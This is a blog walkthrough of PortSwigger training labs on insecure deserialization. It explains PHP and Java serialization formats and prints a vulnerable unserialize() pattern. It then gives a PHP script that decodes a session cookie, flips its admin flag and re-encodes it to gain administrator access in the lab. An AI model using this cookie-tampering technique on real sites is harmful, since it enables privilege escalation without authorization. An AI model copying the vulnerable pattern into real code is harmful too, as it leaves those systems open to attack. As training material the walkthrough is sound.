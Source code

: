 ```yaml
---
title: Insecure deserialization - Practice
date: 2024-01-19
categories: [PortSwigger, Insecure deserialization]
tags: [portswigger, lab, serialization, deserialization, burp, insecure-deserialisation]
img_path: /assets/portswigger/insecure_deserialization/
published: true
image:
    path: ../portswigger_acad_logo.png
---
```


---

<center> <a href="https://cspanias.github.io/posts/PS-Insecure-deserialization-Theory/">[Insecure deserialization - Theory]</a> </center>

---

## Identification

During auditing, you should look at all data passed into the website and try to identify anything that looks like serialized data. Once you identify serialized data, you can test whether you are able to control it.

> _Serialized data can be identified relatively easy if you know the format that different languages use._

> _Burp Pro's Scanner will automatically flag any HTTP messages that appear o contain serialized objects._

### PHP serialization format

PHP uses a mostly **human-readable string format**, with letters representing the data type and numbers representing the length of each entry. For example, consider a `User` object with the attributes:

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

When serialized, this object may look like this:

```php
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

This can be interpreted as follows:
- `O:4:"User"` - An object with the 4-character class name "User".
- `2` - the object has 2 attributes.
- `s:4:"name"` - The key of the first attribute is the 4-character string "name".
- `s:6:"carlos"` - The value of the first attribute is the 6-character string "carlos".
- `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string "isLoggedIn".
- `b:1` - The value of the second attribute is the boolean value true.

The native methods for PHP serialization are `serialize()` and `unserialize()`. 

> _If you have source code access, you should start looking for `unserialize()` anywhere in the code and investigating further.

## Java serialization format

Java uses **binary serialization format**. This is more difficult to read, but you can still identify serialized data if you know how to recognize a few tell-tale signs. For example, serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hex and `rO0` in Base64.

Any class that implements the interface `java.io.Serializable` can be serialized and deserialized.

> _If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`._

## Exploitation

### Manipulating serialized objects

Exploiting some deserialization vulnerabilities can be as easy as changing an attribute in a serialized object. Generally speaking, there are 2 approaches you can take when manipulating serialized objects:
1. You can edit the object directly in its byte stream form.
2. You can write a short script in the corresponding lagnuage to create and serialize the new object.

The latter is often easier when working with binary serialization formats.

#### Modifying object attributes

Consider a website that uses a serialized `User` object to store data about a user's session in a cookie. If an attacker spotted this serialized object in an HTTP request, they might decode it to find the following byte stream:

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
```

The `isAdmin` attribute is an obvious point of interest. An attack could:
1. Change the boolean value to `1`.
2. Re-encode the object.
3. Overwrite their current cookie with this modified value.

In isolation, this has no effect. However, let's say the website uses this cookie to check whether the current user has access to certain administrative functionality:

```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```

This vulnerable code would instantiate a `User` object based on the cookie data, including the attacker-modifed `isAdmin` attribute. At no point is the authenticity of the serialized object checked.

This simple scenario is not common in the wild. However, editing an attribute value in this way demonstrates the first step towards accessing the massive amount of attack surface exposed by insecure deserialization.

#### Lab: Modifying serialized objects

> **Objective**: _This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`._

1. When we login as `wiener` our cookie looks like this:

    ![](lab1_login_cookie.png)

2. We can write a [short script](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/portswigger/insecure_deserialization/lab1_deserialize_serialize_cookie.php) using a [PHP Online Compiler](https://www.programiz.com/php/online-compiler/) that will:
    1. Decode the cookie.
    2. Modify the desired value.
    3. Encode the cookie.

    ```php
    <?php

    # set the serialized cookie
    $serialized_cookie = "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d";
    print "Serialized cookie: $serialized_cookie\n\n";

    # URL decode cookie
    $url_decoded_cookie = urldecode($serialized_cookie);
    print "URL decoded cookie: $url_decoded_cookie\n\n";

    # Base64 decode cookie
    $base64_decoded_cookie = base64_decode($url_decoded_cookie);
    print "Base64 decoded cookie: $base64_decoded_cookie\n\n";

    # modify attribute
    $modified_cookie = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}';

    # modify attribute and encode cookie
    $modifed_serialized_cookie = urlencode(base64_encode($modified_cookie));
    print "Modified serialized cookie: $modifed_serialized_cookie";

    ?>
    ```

    The output of the above script is the following:

    ```text
    Serialized cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

    URL decoded cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=

    Base64 decoded cookie: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}

    Modified serialized cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3D
    ```

3.  Then, we can test the cookie via Burp's repeater, and if it works, then manually change it via the browser's **developer tools**, refresh the page and, hopefully, become admins:

    ![](lab1_admin_panel.png)

    ![](lab1_inspector_cookie.png)

    ![](lab1_solved.png)

4. Alternatively, we can let **Hackvertor** decode it for us, change the desired attribute, and then delete user `carlos`:

    ![](lab1_hackvertor.png)

    ![](lab1_hackvertor1.png)   

    ![](lab1_hackvertor2.png)  

#### Modifying data types




## Futher practice

- [picoCTF: Super Serial](https://cspanias.github.io/posts/PicoCTF-Super-Serial/)
- [HTB: Precious](https://app.hackthebox.com/machines/Precious/)